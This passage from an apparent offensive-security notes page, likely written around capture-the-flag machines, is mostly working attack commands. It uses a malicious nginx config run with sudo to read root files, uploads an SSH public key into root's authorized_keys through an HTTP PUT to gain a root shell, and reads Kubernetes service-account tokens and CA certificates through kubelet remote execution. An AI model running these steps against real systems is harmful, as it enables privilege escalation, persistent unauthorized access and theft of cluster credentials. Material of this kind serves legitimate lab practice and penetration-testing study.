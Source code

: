 Run the nginx by using malicious conf file.
```
sudo nginx -c /tmp/exploit.conf
```

Then, we can get a file by curl command.
``` shell
curl 127.0.0.1:1337/root/root.txt
```
or access the target by ssh with root privilege:
```
ssh-keygen
<snip...>

curl -X PUT 10.129.230.87:1337/root/.ssh/authorized_keys --upload-file root.pub
ssh -i root root@<target ip>
```

# Kubernetes (k8s)
## Get a list of pods
The pods information are extracted from the following URL (kubelet).
```
https://$IP:10250/pods
```

## Get token
Location of token:
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

If the RCE vulnerability is existed, the token is obtained by:
```shell
kubeletctl --server $IP exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
```
Note that `nginx` is an example for k8s service.

## Get certificate
Location of cert
```
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```
If the RCE vulnerability is existed, the certificate is obtained by:
```shell
kubeletctl --server $IP exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```
Note that `nginx` is an example for k8s service.

## Get a list of pods
[Enumerate pods (kubectl)](#enumerate-pods-kubectl)

